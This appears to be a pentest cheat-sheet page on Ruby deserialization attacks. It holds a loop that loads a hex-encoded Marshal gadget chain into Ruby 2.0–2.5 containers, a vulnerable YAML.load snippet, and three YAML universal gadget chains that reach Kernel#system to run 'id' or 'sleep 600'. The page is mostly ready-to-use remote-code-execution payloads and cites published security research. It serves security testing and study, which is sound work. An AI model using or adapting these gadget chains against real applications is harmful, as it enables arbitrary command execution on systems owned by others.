# Ruby Deserialization

> Ruby deserialization is the process of converting serialized data back into Ruby objects, often using formats like YAML, Marshal, or JSON. Ruby's Marshal module, for instance, is commonly used for this, as it can serialize and deserialize complex Ruby objects.

## Summary

* [Marshal Deserialization](#marshal-deserialization)
* [YAML Deserialization](#yaml-deserialization)
* [References](#references)

## Marshal Deserialization

Script to generate and verify the deserialization gadget chain against Ruby 2.0 through to 2.5

```ruby
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e083a11406c6f616465645f66726f6d49220d7c696420313e2632063a0645543a0a4064617461303b09306f3b08003a1140646576656c6f706d656e7446"].pack("H*")) rescue nil'; done
```

## YAML Deserialization

Vulnerable code

```ruby
require "yaml"
YAML.load(File.read("p.yml"))
```

Universal gadget for ruby <= 2.7.2:

```yaml
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```

Universal gadget for ruby 2.x - 3.x.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```yaml
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```

## References

* [Ruby 2.X Universal RCE Deserialization Gadget Chain - Luke Jahnke - November 8, 2018](https://www.elttam.com.au/blog/ruby-deserialization/)
* [Universal RCE with Ruby YAML.load - Etienne Stalmans (@_staaldraad) - March 2, 2019](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/)
* [Ruby 2.x Universal RCE Deserialization Gadget Chain - PentesterLab - 2024](https://pentesterlab.com/exercises/ruby_ugadget/course)
* [Universal RCE with Ruby YAML.load (versions > 2.7) - Etienne Stalmans (@_staaldraad) - January 9, 2021](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/)
* [Blind Remote Code Execution through YAML Deserialization - Colin McQueen - June 9, 2021](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/)
